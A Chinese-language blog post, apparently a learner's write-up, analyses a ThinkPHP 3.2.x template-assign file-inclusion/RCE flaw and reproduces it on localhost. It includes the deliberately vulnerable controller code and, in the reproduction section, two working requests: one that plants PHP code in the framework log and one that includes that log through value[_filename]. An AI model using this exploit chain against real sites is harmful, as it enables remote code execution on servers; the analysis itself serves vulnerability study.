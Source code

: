 前言
--

无意间在最新的漏洞报告中看到关于ThinkPHP3.2.x RCE漏洞通报,最近正好在学习php相关知识,准备闲来无事分析和复现一波。

环境搭建
----

phpstudy+php7.3.4+ThinkPHP3.2.3+windows10

在`\Application\Home\Controller\IndexController.class.php`目录下添加如下代码

```php
<?php
namespace Home\Controller;
use Think\Controller;
class IndexController extends Controller {
    public function index($value=''){
        $this->assign($value);
        $this->display();
    }
}
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-976886b2d249492a60ac08d55b87796c91842a74.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-976886b2d249492a60ac08d55b87796c91842a74.png)  
因为该漏洞利用的assign函数需要模板渲染，所以需要创建对应的模板文件，内容随意，模板文件位置：

```php
\Application\Home\View\Index\index.html
```

漏洞介绍
----

该漏洞产生原因是由于在业务代码中如果对模板赋值方法`assign的第一个参数可控`，则导致模板路径变量被覆盖为携带攻击代码路径，造成文件包含，代码执行等危害。

漏洞分析
----

文件`Application/Home/Controller/IndexController.class.php`  
assign方法中第一个变量为可控变量。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-c2e0c09b6e59efa362f3fbb7c60991ae4084bd99.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-c2e0c09b6e59efa362f3fbb7c60991ae4084bd99.png)

进入到assign方法中  
`ThinkPHP/Library/Think/Controller.class.php`  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-5972c2dc58634faf8f530c43ba10ebb74f7dd025.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-5972c2dc58634faf8f530c43ba10ebb74f7dd025.png)

实际上调用的是`ThinkPHP/Library/Think/View.class.php`中的assign函数,并赋值给`$this→tVar`变量。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-999077968b520cf9598f6351a39b1ddf656b4f8e.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-999077968b520cf9598f6351a39b1ddf656b4f8e.png)

然后进入`display`方法  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-11262015da8ed383e2798f347f223589d4eefbb6.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-11262015da8ed383e2798f347f223589d4eefbb6.png)

`Controller.class.php`的display调用`View.class.php`的display。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-2b38275d790d8ddb218e13633c231552fbcb5889.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-2b38275d790d8ddb218e13633c231552fbcb5889.png)

调用`fetch`方法  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-e2b8be5a2059159a8fe1955062c72d9aa567d96f.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-e2b8be5a2059159a8fe1955062c72d9aa567d96f.png)

跟进`fetch`方法,先会判断模板文件是否存在,不存在直接返回。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-21816649b59956f3743073bb1740a49e91b5119a.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-21816649b59956f3743073bb1740a49e91b5119a.png)

然后由于系统配置的默认模板引擎为Think,所以走else分支  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-bfa1e9062df98da036b4b7cb5fa3242bdcf4fae7.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-bfa1e9062df98da036b4b7cb5fa3242bdcf4fae7.png)

将`$this→tVar`变量值赋值给`$params`，此时var为传入的日志路径，file为模板文件的路径。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-024789b4c0044e03d9ab98c417c181c34deca116.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-024789b4c0044e03d9ab98c417c181c34deca116.png)

跟进listen函数,经过一些判断后进入`exec`函数中  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-121184958bc3a031adc12ee6c01c193f56017ac8.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-121184958bc3a031adc12ee6c01c193f56017ac8.png)

经过一定处理后将调用`Behavior\ParseTemplateBehavior`类中的`run`方法处理`$params`,而其中储存着带有日志文件路径的值。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d03cb6c774836ed56f42f92d080d1e1bf41db01a.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d03cb6c774836ed56f42f92d080d1e1bf41db01a.png)

进入`\ThinkPHP\Library\Behavior\ParseTemplateBehavior.class.php`的run函数。寻找谁继续处理了日志文件路径,发现为`ThinkPHP/Library/Think/Template.class.php`的fetch方法,其中`$_data[var]`储存了日志文件路径的变量值。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-ea0d2e7af1844fd006cd334e03ec8cba4860dc13.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-ea0d2e7af1844fd006cd334e03ec8cba4860dc13.png)

最后跟进到`Storage`的`load`方法  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-64af8273d71cd3e05087e09b75b1c7421aa668b8.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-64af8273d71cd3e05087e09b75b1c7421aa668b8.png)

判断`$vars`值是否为空,不为空则会以`EXTR_OVERWRITE`属性覆盖`$_filename`原有的值。最后`$_filename`将等于`./Application/Runtime/Logs/Common/21_08_23.log`,最后形成文件包含。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d9ab38966d292415b9edc8afda4269e73c3c516f.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d9ab38966d292415b9edc8afda4269e73c3c516f.png)

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-c1b87f3af9b0c6fa2b277c6b46c8be92f1183f90.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-c1b87f3af9b0c6fa2b277c6b46c8be92f1183f90.png)

漏洞复现
----

创建log文件  
<http://127.0.0.1/tp3/index.php?m>=--&gt;&lt;?=phpinfo();?&gt;

```php
GET /tp3/index.php?m=--><?=phpinfo();?> HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Cookie: PHPSESSID=np6v88jt9982el6btpcm998moe
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1

```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-506e0805f1a9072652e6ece185016b5f6d8d6957.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-506e0805f1a9072652e6ece185016b5f6d8d6957.png)

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-e6bfd6935ed9398808d2e2f379132bb21cd63a2b.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-e6bfd6935ed9398808d2e2f379132bb21cd63a2b.png)  
包含log文件,注意日志文件名,tp的日志文件名和年月日是相关的。

```php
http://127.0.0.1/tp3/index.php?m=Home&c=Index&a=index&value[_filename]=./Application/Runtime/Logs/Common/21_08_23.log
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-c6558d726ab2440149461e72fcbc4033033dd5a1.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-c6558d726ab2440149461e72fcbc4033033dd5a1.png)

后记
--

该漏洞由(【漏洞通报】ThinkPHP3.2.x RCE漏洞通报)\[[https://mp.weixin.qq.com/s?\_\_biz=MzAwMjQ2NTQ4Mg==&amp;mid=2247487129&amp;idx=1&amp;sn=3d80cc03e4f03a6bdb2be1611e98957c](https://mp.weixin.qq.com/s?__biz=MzAwMjQ2NTQ4Mg==&mid=2247487129&idx=1&sn=3d80cc03e4f03a6bdb2be1611e98957c)\] 在  
今年07月12日率先纰漏,不过看到有大佬说这好像是个老洞,有类似的。不过这都与小弟无关,作为入门新手进行学习。如有错误请师傅们斧正。